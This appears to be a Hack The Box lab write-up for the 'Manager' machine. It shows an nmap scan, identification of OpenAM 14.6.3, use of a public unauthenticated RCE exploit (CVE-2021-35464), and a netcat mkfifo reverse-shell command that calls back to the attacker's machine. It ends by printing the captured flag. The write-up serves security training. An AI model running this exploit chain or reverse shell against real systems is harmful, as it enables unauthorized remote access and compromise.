

# Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.


Gathered some header info from the `Network` tab in browser dev tools.



Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits are necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use the below. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:~$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:~$ cat user.txt  
cat user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`